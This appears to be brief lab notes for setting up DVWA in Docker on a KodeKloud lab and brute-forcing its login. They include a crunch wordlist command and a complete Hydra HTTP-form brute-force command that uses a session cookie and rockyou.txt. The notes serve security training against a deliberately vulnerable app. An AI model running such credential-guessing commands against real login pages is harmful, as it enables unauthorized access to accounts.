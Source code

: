 https://techbeatz.co.uk/cyber-security/dvwa-task-1-brute-force-using-hydra-developer-tools/

```
git clone https://github.com/jon94/dvwa-dd.git
```

Replace DD API KEY

```
docker compose up -d --force-recreate --no-deps --build
```

Login to wherever it is hosted in kodekloud to obtain the URL as well as the PHP SessID. These are needed for the bruteforce.

cd to /Tools/wordlists/

Generate username using crunch
- Generate between 5 - 8 letters from letters been a-n and output in usernames.txt
```
crunch 5 8 abcdefghijklmn -o usernames.txt
```
For password, we will use rockyou.txt as list

hydra -f -S 4280-port-c9ca66e998614364.labs.kodekloud.com http-form-get "/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=submit:F=Username and/or password incorrect.:H=Cookie:security=low; PHPSESSID=752d8f869d751bceb05b112632080b5b" -l admin -P rockyou.txt